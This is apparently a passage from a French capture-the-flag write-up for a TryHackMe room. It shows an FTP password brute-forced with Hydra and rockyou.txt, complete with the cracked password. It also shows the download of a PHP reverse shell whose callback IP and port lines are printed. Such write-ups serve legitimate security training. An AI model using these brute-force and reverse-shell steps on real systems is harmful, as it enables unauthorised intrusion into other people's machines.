 Réponse : rootkit

## Task 2 Hack your way back into the machine ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.248.186 hacked.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

```

**Run Hydra (or any similar tool) on the FTP service. The attacker might not have chosen a complex password. You might get lucky if you use a common word list.**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://hacked.thm
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-11 21:46:20
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://hacked.thm:21/
[21][ftp] host: hacked.thm   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-11 21:46:58

```

On trouve le nouveau mot de passe : 987654321   

**Change the necessary values inside the web shell and upload it to the webserver**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ftp hacked.thm
Connected to hacked.thm.
220 Hello FTP World!
Name (hacked.thm:tim): jenny
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5493 Feb 01  2021 shell.php
226 Directory send OK.
ftp> get shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for shell.php (5493 bytes).
226 Transfer complete.
5493 bytes received in 0.00 secs (1.9746 MB/s)
ftp> exit
221 Goodbye.

tim@kali:~/Bureau/tryhackme/write-up$ cat shell.php | grep -A 1 '$ip' 
$ip = '10.9.228.66';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
--
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
```